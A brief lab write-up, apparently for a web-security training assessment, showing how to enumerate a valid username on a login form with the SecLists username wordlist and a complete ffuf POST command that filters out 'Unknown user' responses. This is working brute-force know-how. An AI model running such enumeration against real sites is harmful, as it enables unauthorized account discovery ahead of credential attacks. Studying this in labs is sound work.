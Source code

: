 # Brute-Force Attacks

### Enumerate a valid user on the web application. Provide the username as the answer.

To complete this assessment we need the SecLists usernames wordlist and a simple ffuf command to brute-force the an application username.

**Step 1 -** Download the SecLists wordlist:

* [xato-net-10-million-usernames.txt](https://github.com/danielmiessler/SecLists/blob/master/Usernames/xato-net-10-million-usernames.txt)

**Step 2 -** Enumerate with ffuf:

* {% code overflow="wrap" %}
  ```bash
  ffuf -w xato-net-10-million-usernames.txt -u http://SERVER_IP:SERVER_PORT/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=FUZZ&password=random" -fr "Unknown user"
  ```
  {% endcode %}

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

After a few seconds we got the username!

